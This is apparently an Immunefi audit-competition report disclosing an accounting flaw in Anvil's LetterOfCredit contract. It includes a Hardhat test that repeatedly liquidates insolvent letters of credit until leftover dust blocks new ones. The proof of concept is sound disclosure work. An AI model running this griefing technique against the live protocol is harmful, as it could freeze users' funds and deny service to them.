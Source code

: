 # #36999 \[SC-Insight] Incomplete Adjustment of \`globalAmountInDynamicUse\` During LOC Liquidation Causes Accumulated Dust and DoS Risk

**Submitted on Nov 21st 2024 at 21:15:09 UTC by @jovi for** [**Audit Comp | Anvil: Letters of Credit**](https://immunefi.com/audit-competition/audit-comp-anvil-letters-of-credit)

* **Report ID:** #36999
* **Report Type:** Smart Contract
* **Report severity:** Insight
* **Target:** https://github.com/AcronymFoundation/anvil-contracts/blob/main/contracts/LetterOfCredit.sol
* **Impacts:**
  * Temporary freezing of funds set to 48 hrs within the LetterOfCredit contract
  * Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description

## Brief/Intro

The \`globalAmountInDynamicUse\` is not decremented by the correct amount when insolvent LOCs are liquidated due to discrepancies in \`creditedTokenAmountToReceive\` calculations.

## Vulnerability Details

The issue arises in the \`\_calculateLiquidationContext\` function, due to how insolvent LOCs are handled. When converting the LOC, the following code snippet will be executed: \`\`\`solidity if (maxCreditedTokenAmountToReceive < \_loc.creditedTokenAmount) { if (\_requiredCreditedAmount != \_loc.creditedTokenAmount) revert PartialRedeemInsolvent(); return \_createLiquidationContextUsingAllClaimableCollateral(\_loc, maxCreditedTokenAmountToReceive); } \`\`\` When we call this function, the \`creditedTokenAmountToReceive\` value returned is the second argument. In this case, this argument is \`maxCreditedTokenAmountToReceive\`.

Since the LOC is insolvent, \`maxCreditedTokenAmountToReceive\` will never be equal to the originally credited token amount of the dynamic LOC. By returning a value for \`liquidationContext.creditedTokenAmountToReceive \`that is smaller than the original creditedTokenAmount at this call, the insolvent LOC is effectively turned into a static one. The issue is that the difference \`(originalCreditedTokenAmount - maxCreditedTokenAmountToReceive)\` is not removed from the \`globalAmountInDynamicUse\` storage due to the following snippet in the \`\_liquidateLOCCollateral\` function: \`\`\`solidity creditedTokens\[creditedTokenAddress].globalAmountInDynamicUse -= liquidationContext .creditedTokenAmountToReceive; \`\`\`

When the dynamic LOC was created, \`globalAmountInDynamicUse\` was incremented by the credited token amount, but during liquidation, the full credited token amount is not being removed. Since the LOC has become static, it no longer affects \`globalAmountInDynamicUse\`.

Over time, these dust amounts accumulate and can cause a Denial of Service (DoS) on the creation of new LOCs because of how the creation of new dynamic LOCs is processed. The \`\_validateAndUpdateCreditedTokenUsageForDynamicLOCCreation\` function ensures the credited amount in use is within certain bounds: \`\`\`solidity uint256 newCreditedAmountInUse = creditedToken.globalAmountInDynamicUse + \_creditedTokenAmount; if (newCreditedAmountInUse > creditedToken.globalMaxInDynamicUse) revert GlobalCreditedTokenMaxInUseExceeded(creditedToken.globalMaxInDynamicUse, newCreditedAmountInUse);

\`\`\`

## Impact Details

The \`globalAmountInDynamicUse\` tracking is not correctly updated during liquidations. This can lead to a DoS on the creation of new dynamic LOCs as the \`globalAmountInDynamicUse\` value will incorrectly exceed the allowed limit, preventing new LOCs from being created.

## Proof of Concept

## Proof of concept

The following POC first executes multiple liquidations in order to accumulate gather dust at the \`globalAmountInDynamicUse\` storage. It logs the amounts of dust accumulated through each iteration. The following POC is structured in iterations that incrementally adjust the \`globalAmountInDynamicUse\` by summing dust amounts. Each iteration is comprised of the following steps:

* Set the price to an initial value.
* Create a dynamic LOC with a specific collateral and credited amount.
* Modify the price oracle to make the LOC insolvent.
* Trigger liquidation using \`convertLOC\`.
* Observe the unadjusted \`globalAmountInDynamicUse\`. The POC finishes by emitting a \`GlobalCreditedTokenMaxInUseExceeded\` error, as the dust amounts accumulated become so big users cannot create new LOCs anymore at iteration 184. The output should look like this: \`\`\`

1. LetterOfCredit Should demonstrate the globalAmountInDynamicUse is not fully removed during LOC conversions: Error: VM Exception while processing transaction: reverted with custom error 'GlobalCreditedTokenMaxInUseExceeded(100000000000000000000000, 100238621759259259259416)' \`\`\`

Paste the following code as a test at the createDynamicLOC.ts file: \`\`\`typescript it('Should demonstrate the globalAmountInDynamicUse is not fully removed during LOC conversions', async function () { // Load the initial setup const { creator, beneficiary, vault, letterOfCredit, creditedToken, collateralToken, priceOracle, other, } = await loadFixture(baseSetup); // loop this 10 times for (let i = 0; i< 200; i++) { // Mint credited tokens for \`other\` and approve the \`letterOfCredit\` const creditedTokenAmount = 1\_000\_000n \* 10n \*\* BigInt(await creditedToken.decimals()); await creditedToken.mint(await beneficiary.getAddress(), creditedTokenAmount); await creditedToken.connect(beneficiary).approve(await letterOfCredit.getAddress(), creditedTokenAmount);

```
// Calculate credited and collateral token amounts
const creditedTokenAmountToLOC &#x3D; BigInt((await letterOfCredit.getCreditedToken(await creditedToken.getAddress())).maxPerDynamicLOC);

const collateralTokenAmountToLOC &#x3D; (4n / 3n * creditedTokenAmountToLOC) / 1_000_000_000_000n;

// Approve collateral token and deposit to the vault
await collateralToken.connect(creator).approve(await vault.getAddress(), collateralTokenAmountToLOC);
await vault
    .connect(creator)
    .depositToAccount(await creator.getAddress(), [await collateralToken.getAddress()], [collateralTokenAmountToLOC]);

// Create allowance signature for LOC
const allowanceSignature &#x3D; await getModifyCollateralizableTokenAllowanceSignature(
    creator,
    (await vault.runner?.provider?.getNetwork())?.chainId ?? 0,
    await letterOfCredit.getAddress(),
    await collateralToken.getAddress(),
    collateralTokenAmountToLOC,
    await vault.nonces(
        await creator.getAddress(),
        await vault.COLLATERALIZABLE_TOKEN_ALLOWANCE_ADJUSTMENT_TYPEHASH()
    ),
    await vault.getAddress()
);

// Update price in the price oracle so that is always starts an iteration with the same price.
const abiCoder &#x3D; new AbiCoder();
let oracleData &#x3D; abiCoder.encode([&#x27;uint256&#x27;, &#x27;int32&#x27;], [4n, 12n]);
await priceOracle.updatePrice(
    await collateralToken.getAddress(),
    await creditedToken.getAddress(),
    oracleData
);

// Create LOC
const expirationSeconds &#x3D; await lastBlockTime(+3600);
const tx &#x3D; await letterOfCredit.connect(creator).createDynamicLOC(
    await beneficiary.getAddress(),
    await collateralToken.getAddress(),
    collateralTokenAmountToLOC,
    await creditedToken.getAddress(),
    creditedTokenAmountToLOC,
    expirationSeconds,
    ethers.getBytes(&#x27;0x&#x27;),
    allowanceSignature
);

// Set price to make LOC unhealthy
await priceOracle.setMockPrice(
    await collateralToken.getAddress(),
    await creditedToken.getAddress(),
    5n,
    11n,
    await lastBlockTime()
);

// Verify LOC creation and parameters
const ev &#x3D; await getEmittedEventArgs(tx, letterOfCredit, &#x27;LOCCreated&#x27;);
expect(ev.creator).to.equal(await creator.getAddress());
expect(ev.beneficiary).to.equal(await beneficiary.getAddress());
expect(ev.collateralTokenAddress).to.equal(await collateralToken.getAddress());
expect(ev.collateralTokenAmount.toString()).to.equal(collateralTokenAmountToLOC.toString());

const expectedClaimable &#x3D; amountBeforeFee(collateralTokenAmountToLOC, Number(await vault.withdrawalFeeBasisPoints()));
expect(ev.claimableCollateral.toString()).to.equal(expectedClaimable.toString());
expect(ev.creditedTokenAddress).to.equal(await creditedToken.getAddress());
expect(ev.creditedTokenAmount.toString()).to.equal(creditedTokenAmountToLOC.toString());
expect(ev.expirationTimestamp.toString()).to.equal(expirationSeconds.toString());

// Attempt to redeem LOC after liquidation
const tx2 &#x3D; await letterOfCredit.connect(beneficiary).convertLOC(
    ev.id,
    &#x27;0x0000000000000000000000000000000000000000&#x27;,
    ethers.getBytes(&#x27;0x&#x27;),
    ethers.getBytes(&#x27;0x&#x27;)
);
console.log(&quot;globalAmountInDynamicUse value after iteration #&quot;, i);
// its okay to access the 4th element of this array as we know it is the globalAmountInDynamicUse value
const creditedTokenStorage &#x3D; await letterOfCredit.getCreditedToken(creditedToken);
console.log(creditedTokenStorage.globalAmountInDynamicUse);
}
```

}); \`\`\`

Run the test with: \`\`\`shell npm run test \`\`\`

Of course, this POC displays a DOS impact when there aren't multiple parties using the system. Given that the protocol will handle many LOCs, it is fair to assume a much smaller amount of liquidations would need to happen to reach a similar state -> as there will be a bigger legitimate values for the globalAmountInDynamicUse storage value.
